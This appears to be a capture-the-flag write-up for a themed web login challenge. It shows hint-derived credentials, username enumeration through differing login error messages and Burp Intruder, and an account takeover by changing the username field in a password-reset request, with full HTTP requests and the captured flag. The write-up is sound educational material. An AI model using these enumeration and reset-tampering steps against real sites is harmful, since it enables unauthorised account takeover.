

# Intro


# Information gathering
When entering the user is presented with a login form with some text giving away some hint of credentials ```Anubis``` and  ```deathgod123```.   


Clicking the button "The Scroll of Gods" downloads a text file named ```usernames.txt``` that contains a list of usernames with one name on each line.  
Part of the list:
```
Anubis
Ra
Osiris
Seth
Horus
Isis
Nephthys
Thoth
Bastet
Sobek
Nut
Geb
Ptah
[...]
```

Checking the source code for the page a hint is displayed
```html
[...]
	<a href="/static/usernames.txt" download>
	    <button class="download-btn">The Scroll of Gods</button>
	</a>
</div>

<!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
	<!-- LOGIN FORM -->
[...]
```

```
The hint:
<!-- Right section: Login + Password Reset (for Anubis) -->
```
This hints says that there is a user called ```Anubis``` which matches the credentials that was found earlier ```Anubis:deathgod123```. The hint also says that the is a password reset function. This could be the point of attack.  

The text on the site: 
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```

Breaking down the text to get further hints
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
```
The Anubis doesn't seem to be the target to get the flag, there is another account, the "true ruler" is probably the account that should be targeted.

```
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```
This parts hints that the name of the account of the "true ruler" is unknown and that there is a way "reset its wards".

It seems that to solve the CTF, an account name for the "true ruler" needs to be uncovered, and the password for that account must be reset.

Entering random username and password into the login form returns a helpful error, "Invalid username"
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=test&password=test
```

```html
 <!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
    <p style="color: red;">Invalid username</p>
    <!-- LOGIN FORM -->
```
This reveals that the user "test" isn't a username that exits in the application.
Repeating the request but with the username that is known to exit, ```Anubis```, reveals that only password is wrong but the app doesn't complains about the username.    
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 34
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=Anubis&password=asdasdasd
```

```html
   <!-- Right section: Login + Password Reset (for Anubis) -->
  <div class="form-section">            
    <p style="color: red;">Incorrect password</p>
        <!-- LOGIN FORM -->   
```

This could be used to find the other valid usernames in the application. This is the way to find the "true ruler"

Using the credentials, a new reset password form appear. Confirming that there is a password reset function.


Using the account makes this ```POST``` request:
```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```
The body of the request contains the username and the new password. Could this username be changed to reset the password for an another user instead using the ```Anubis``` account? Then The the username for the "true ruler" needs to be uncovered.

# Attack

Using the list of username the Intruder in BurpSuite is a perfect way to find what usernames are valid or which are not. Enter the list of username and add the ```§``` where the name should be put in each request and press start attack. 


After running the intruder there are two responses that differs from the others.
- Anubis - which was known to exist
- Khonsu - newly found username


```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:48046
Content-Length: 34
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:48046
Referer: http://207.154.240.240:48046/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBZI2A.NT22SvflnJDmCyptaGhor_JIF3Y
Connection: keep-alive

username=Khonsu&new_password=pwned
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sat, 03 May 2025 16:49:25 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

Using the newly changed password it's now possible to login in as the user ```Khonsu``` and the flag is displayed.


```Flag: O24{73mp13_53cr37s_Unv31l3d}```